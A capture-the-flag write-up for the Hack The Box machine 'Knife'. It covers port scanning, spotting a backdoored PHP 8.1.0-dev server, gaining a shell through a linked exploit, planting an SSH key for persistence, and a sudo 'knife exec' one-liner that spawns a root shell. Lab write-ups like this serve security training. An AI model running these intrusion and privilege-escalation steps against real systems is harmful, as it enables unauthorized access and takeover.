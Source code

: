 ```yaml
---
description: https://app.hackthebox.com/machines/list/todo
---
```


# Knife

## Nmap

```
sudo nmap 10.10.10.242 -p- -sS -sV

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 being the only realistic path ahead we view the root page.

![](<../../../.gitbook/assets/image (2066) (1) (1) (1) (2).png>)

We find the page is largely unusable. Running `nikto` against the target web server we see very little useful information.

```
nikto -h http://10.10.10.242
```

![](<../../../.gitbook/assets/image (265).png>)

Running `feroxbuster` against that host we see no interesting found files or directories. However, we are running PHP as per `/index.php.`

![](<../../../.gitbook/assets/image (9) (2) (1).png>)

Running the web server against ZAP we see HTTP headers return the web server running on `PHP/8.1.0-dev`.

![](<../../../.gitbook/assets/image (983).png>)

A quick Google search for this version of `PHP` immediately shows exploit code for this version.

![](<../../../.gitbook/assets/image (515).png>)

From here the first link for exploit-db.com shows us some exploit code and references for the exploit.

**Exploit-DB:** [https://www.exploit-db.com/exploits/49933](https://www.exploit-db.com/exploits/49933)

**Blog:** [https://flast101.github.io/php-8.1.0-dev-backdoor-rce/](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

**Description**

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agent header. The following exploit uses the backdoor to provide a pseudo shell on the host.

Running the exploit and the address of the server when prompted gives us a shell as the user james.

![](<../../../.gitbook/assets/image (585).png>)

Next we notice that in /home/james/.ssh we have id\_rsa files available. We can create an authorized keys file and echo the contents of id\_rsa.pub into the authorized keys file. This will give SSH access without having any knowledge of the user james' password.

```
# Create authorized_keys file
touch authorized_keys

# echo contnets of id_rsa.pub into authorized_keys
echo "<Contents of id_rsa.pub>" > authroized_keys

# Next, copy id_rsa to the attacking system and SSH in as the strapi user.
ssh -i id_rsa james@10.10.10.242
```

![](<../../../.gitbook/assets/image (138).png>)

Once in by SSH we check `sudo -l` for sudo permissions.

![](<../../../.gitbook/assets/image (2047) (1) (1) (2).png>)

We see we can run the knife binary as the user root without specifying a password. Looking at GTFOBins we see this can be used with `sudo` to escalate privileges.

**GTFOBins:** [https://gtfobins.github.io/gtfobins/knife/](https://gtfobins.github.io/gtfobins/knife/)

![](<../../../.gitbook/assets/image (883).png>)

```
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
```

![](<../../../.gitbook/assets/image (85).png>)
